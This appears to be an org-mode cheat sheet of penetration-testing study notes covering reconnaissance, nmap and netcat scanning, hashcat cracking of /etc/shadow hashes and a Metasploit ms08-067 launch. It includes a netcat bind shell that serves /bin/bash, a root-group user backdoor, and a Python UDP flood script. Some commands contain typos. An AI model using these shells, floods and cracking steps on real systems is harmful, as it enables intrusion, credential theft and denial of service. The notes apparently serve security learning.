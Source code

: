 #+HTML_HEAD: <link rel="stylesheet" type="text/css" href="css/main.css" />
* footpringint
** website footprinting
 - operating system used.
 - subdirectories and parameters
 - Filename, path, database field name, or query:You should analyze anything after the
   a  query that looks like a filename, path, database field name, or query carefully
   to check whether it offers opportunities for SQL injection
 - Scripting platform
 - Contact details and CMS details: The contact pages usually offer details such as names
   phone numbers, email addresses, and locations of admin or support people.

** view headers
 - Connection status and content-type
 - Accept-ranges
 - Last-Modified information
 - X-Powered-By information
 - Web server in use and its version

** examine cookies set by the server to determine the software
running and its behavior.

** Email footprinting
By using email tracking tools you can gather the following information about
the victim:

 - Geolocation
 - read duration
 - proxy detection
 - links : allows you to check whether the links sent to the recipient through email
   have been checked or not.
 - Operating System
 - Forward email : whether or not the email sent to you is forwarded to another person
   can be determined easily by using this tool.

* Kali linux prep
** install linux headers for kali

#+begin_src shell 
$ apt-cache search header | grep -i linux
#  look for the one ending in –kali-all-amd64
$ apt-get install linux-headers-4.4.0-kalli-all-amd64
#+end_src 

** install kali guest additions

#+begin_src shell 
$ cd /media/cdrom0
$ cp VBoxLinuxAdditions.run /root/Desktop
$ ./VBoxLinuxAdditions.run
#+end_src 

** use network managed mode

#+begin_src shell 
$ vim /etc/NetworkManager.conf
# change managed=false to managed=true
#+end_src 

** permit =Root= login for SSH

#+begin_src shell 
$ vim /etc/ssh/sshd_config
#  change line PermitRootLogin without-password
#  PermitRootLogin yes
#+end_src 

* google search operators
|            |                                                                                                |
|------------+------------------------------------------------------------------------------------------------|
| Operator   | Description intitle Looks for the search terms in the title                                    |
| allintitle | Looks for the search terms only in the title and nowhere else in the document                  |
| inurl      | Looks through the URL (the address) for the search terms                                       |
| allinurl   | Similar to allintitle     looks only in the URL for the search terms                           |
| filetype   | You provide the filetype and search terms. All results have that filetype.                     |
| allintext  | The search will not look at the URL and just in the text.                                      |
| site       | Narrow your search to a particular site. You have to provide the site as well as search terms. |
| link       | Searches for links to pages                                                                    |
| inanchor   | This search will look in anchor tags only                                                      |
| numrange   | Searches for a number                                                                          |
| daterange  | Results will be within a range of dates            as specified                                |
| author     | Searches Google Groups for a particular author. This only works in Google Groups.              |
| group      | Looks for a group name. This only works in Google Groups.                                      |
| insubject  | Searches subject lines in posts. This only works in Google Groups.                             |
| msgid      | Searches within a group for a message ID.                                                      |

http://www.googleguide.com
* whois & DNS
** query
#+begin_src shell
$ whois apress.com
$ whois -h whois.apnic.net <host>
# Looking up all the whois records that are maintained by the
# folks from Yahoo!. The following command shows how you do this:
$ whois –i mnt-by YAHOO-MNT
# filter ip addresses
$ whois –i mnt-by YAHOO-MNT | grep inetnum
$ whois –i mnt-by YAHOO-MNT | grep inetnum | awk –F\: '{ print $2 }'
#+end_src 

** whois query query handler

| whois.nic.ir    |
| whois.apnic.net |
| whois.arin.net  |

** MX record

Every domain will have at least one MX record. Knowing the hostname from the MX
record will tell you which system you need to interact with if you want to
perform penetration testing against the organization's receiving mail server
using the simple mail transfer protocol (SMTP) .

#+begin_src shell
# MX records
$ dig Mx apress.com
#using nslookup
$ nslookup
> set type=mx
> apress.com
#+end_src

** reverse DNS lookup
#+begin_src shell 
$ dig -x [IP address]
#+end_src 

* port scan 

#+begin_src shell 
# -p- scann all 65536 ports
$ sudo nmap -sS -p- 172.30.42.1
# udp port scan
$ sudo namp -sU
# operating system scan
$ sudo nmap -sS -O 172.30.42.1
# scan one port 
$ sudo nmap -sV -p 22,53 <ip>
# TCP full connection scan
$ nmap -sT -vvv -p 80 192.168.195.0/24
# SYN scan
$ nmap -sS -vvv -p 80 192.168.195.0/24
# ACK scan
$ nmap -sA -vvv -p80 192.168.195.0/24
# UDP scan
$ nmap -sU -vvv -p161 192.168.195.0/24
# combined UDP and TCP scan
$ nmap -sS -sU -vvv -p U:161,139 T:8080,21 192.168.195.0/24
# service detection
$ nmap -sS -vvv -Pn -sV<targetIP>
#+end_src 

** scanning default gateways
#+begin_src shell
for i in `seq 1 255`; do ping -c 1 192.168.$1.1 | tr \\n ' ' | awk '/1
received/ {print $2}'; done
#+end_src


* banner grabbing
use telnet for TCP and nc for UPD connections.

#+begin_src shell 
$ telnet <host> <port>
$ nc -u <host> <port>
#+end_src

* host discovery with =arping=
  
#+begin_src shell 
$ arping [ip address]
#+end_src 

* netcat
** port scan using =netcat= 

 #+begin_src shell 
 $ netcat -z -v domain.com 1-1000
 #ou can then use the -n flag to specify that you do not need to resolve the IP address using DNS:
 $ netcat -z -n -v 111.111.111.111 1-1000
 $ netcat -z -n -v 111.111.111.111 1-1000 2>&1 | grep succeeded
 # to randomized port scanning use -r switch
 $ nc –v –r –w 1 192.168.0.10 –z 1-1000
 # scanning a range of devices
 $ for i in {10..12}; do nc –vv –n –w 1 192.168.0.$i 21-25 –z; done
 #+end_src

** communicate through =netcat=

 On one machine, you can tell netcat to listen to a specific port for
 connections. We can do this by providing the -l parameter and choosing a port:

 #+begin_src shell 
 netcat -l 4444
 #+end_src

 This will tell netcat to listen for TCP connections on port 4444

 On a second server, we can connect to the first machine on the port number we
 choose. We do this the same way we've been establishing connections previously:

 #+begin_src shell 
 netcat domain.com 4444
 #+end_src 

 It will look as if nothing has happened. However, you can now send messages on
 either side of the connection and they will be seen on either end.
** =netcat= chat interface

 #+begin_src shell 
 $ nc -l -p 4444         # host ip 192.168.1.102
 $ nc 192.168.1.102 4444
 #+end_src 

** transfering data with =netcat=

 #+begin_src shell 
 # server +++ -w 30 wait for 30 seconds 
 $ nc –v –w 30 –p 31337 –l < secret.txt
 # client
 $ nc –v –w 2 192.168.0.10 31337 > secret.txt
 #+end_src 

** banner grabbing

 #+begin_src shell 
 $ nc 192.168.1.1 80
 #+end_src 

** Linux remote shell 

 to prepare the listener we will type the following command into the command
 line:

 #+begin_src shell 
 $ sudo nc –lp 31337 –e /bin/bash
 #Connecting to the target
 $ nc 192.168.0.11 31337
 # Adding a local user and placing into the root group
 $ useradd –g root bob
 #+end_src 

* sample python flood scriptf


#+begin_src python
import socket
import random

sock=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes=random._urandom(1024)
ip=raw_input('Target IP:')
port=input('Port:')
sent=0

while 1:
	sock.sendto(bytes,(ip,port))
	print "Sent %s amount of packets to %s at port %s: " % (sent,ip, port)
	sent = sent + 1
#+end_src 

* Cracking Linux Password Hashes with Hashcat 

** Getting Hashcat 2.00

Hashcat updated to 3.00 and it won't run in a virtual machine anymore. The simplest solution is to use the old version.
In a Terminal window, execute these commands:
#+begin_src shell
cd
mkdir hash
cd hash
wget https://hashcat.net/files_legacy/hashcat-2.00.7z
7z e hashcat-2.00.7z
./hashcat-cli32.bin -V
#+end_src 

#+begin_src shell
# get the hash for a username
$ cat /etc/shadow

# Finding the salt value
# The $6$ value indicates a type 6 password hash (SHA-512).
# The characters after $6$, up to the next $,  are the SALT.
$ cat /etc/show
root:$6$QYVo1xui$JS7zZtJ857Ti5nKYjTAcVUKqe.87yZvUXgehw2irI5k.0NzhI8PLkga8pz3uR7b8V.lF9qpxZtACqIBNKM.yB0:17235:0:99999:7:::

# Hash algorithm?
# the hash algorithm is defined in the file /etc/login.defs.
$ grep -A 18 ENCRYPT_METHOD /etc/login.defs

# Making a Hash File
# add the hashed password to a file
# and remove the last part for the above hash value delete everything after the yB0
# and the username 

# make a wordlist
$ curl http://www.scovetta.com/download/500_passwords.txt > 500_passwords.txt
head 500_passwords.txt

# Cracking the Hash
$ ./hashcat-cli32.bin -m 1800 -a 0 -o found1.txt --remove crack1.hash 500_passwords.txt
$ cat found1.txt

# Unix type 6 password hashes (-m 1800)
# Using a dictionary attack (-a 0)
# Putting output in the file found1.txt
# Removing each hash as it is found
# Getting hashes from crack1.hash
# Using the dictionary 500_passwords.txt
#+end_src 

https://samsclass.info/123/proj10/p12-hashcat.htm

* metasploit
** init
   
#+begin_src shell 
$ service postgresql start
$ service metasploit start
$ msfconsole
msf > search ms08-067
msf > info exploit/windows/smb/ms08_067_netapi
msf > use windows/smb/ms08_067_netapi
msf > show options
# setting RHOST
msf > set RHOST 192.168.20.10
msf > exploit
#+end_src 


